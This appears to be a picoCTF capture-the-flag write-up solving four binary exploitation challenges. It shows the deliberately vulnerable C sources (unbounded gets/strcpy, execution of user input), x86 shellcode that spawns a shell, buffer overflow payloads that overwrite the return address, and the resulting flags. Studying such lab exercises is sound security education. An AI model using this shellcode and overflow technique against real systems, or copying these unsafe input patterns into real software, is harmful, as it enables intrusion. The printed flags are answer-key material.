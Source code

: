 # Binary Exploit

### handy-shellcode (50 points)

This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in `/problems/handy-shellcode_1_ebc60746fee43ae25c405fc75a234ef5` on the shell server.

FLAG: `picoCTF{h4ndY_d4ndY_sh311c0d3_2cb0ff39}`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

Find a shellcode to execute `/bin/bash` online:

```
\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80
```

Use python2 to print it and pipe it to the vulnerable program. python3 has a different version of print statement, which removes some "unprintable" characters from the output. That would ruin the shellcode.

**Note:** We can use `cat` to keep the input stream open!

```bash
$ (python -c "print('\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80')" ; cat) | ./vuln
```

We get the following result:

```bash
$ /problems/handy-shellcode_1_ebc60746fee43ae25c405fc75a234ef5$ (python -c "print('\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80')" ; cat) | ./vuln
Enter your shellcode:
j
 X�Rfh-p��Rjhh/bash/bin��RQS��̀
Thanks! Executing now...
id
uid=29614(sophiasp1r0) gid=8870(handy-shellcode_1) groups=8870(handy-shellcode_1),1002(competitors),29615(sophiasp1r0)
cat flag.txt
picoCTF{h4ndY_d4ndY_sh311c0d3_2cb0ff39}exit

```

Same effect can be achieve using the following command:

```bash
$ (echo -n -e '\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80' ; cat) | ./vuln
```

or use `pwn.asm(pwn.shellcraft.linux.sh())` (See [this link](https://www.youtube.com/watch?v=Nn0fUJuQEsk&t=174s))

### practice-run-1 (50 points)

You're going to need to know how to run programs if you're going to get out of here. Navigate to `/problems/practice-run-1_0_62b61488e896645ebff9b6c97d0e775e` on the shell server and run this program to receive a flag.

FLAG: `picoCTF{g3t_r3adY_2_r3v3r53}`

```bash
$ /problems/practice-run-1_0_62b61488e896645ebff9b6c97d0e775e/run_this
# => picoCTF{g3t_r3adY_2_r3v3r53}
```

### Overflow 0 (100 points)

This should be easy. Overflow the correct buffer in this program and get a flag. Its also found in `/problems/overflow-0_5_db665826dabb99c44758c97abfd8c4c6` on the shell server.

FLAG: `picoCTF{3asY_P3a5y4a888b8e}`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}

```

Overflow the buffer to trigger segmentation fault, and the program will print out the flag.

```bash
$ python -c "print('A' * 140)" | xargs ./vuln
# => picoCTF{3asY_P3a5y4a888b8e}
```

### Overflow 1 (150 points)

You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program? You can find it in `/problems/overflow-1_1_e792baa0d29d24699530e6a26071a260` on the shell server.

FLAG: `picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```

Using gdb we can figure out that the buffer starts at `0xffffd6c0` and ends at `0xffffd700`. However, `ebp` for `vuln` is `0xffffd708`. That means, there are 8 bytes between the end of the buffer and the start of the saved frame pointer. The return address should be at `0xffffd70c`.

That means, we need to pass in a string of 72 bytes to overwrite the return address and make `vuln` return to `flag`. The address of `flag` is `0x080485e6`.

Therefore, we can use the following command:

```bash
$ ruby -e 'print("A" * 64 + "\x28\x88\x04\x08" + "\x00\xa0\x04\x08" + "\x28\xd7\xff\xff" + "\xe6\x85\x04\x08");' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}Segmentation fault (core dumped)
```
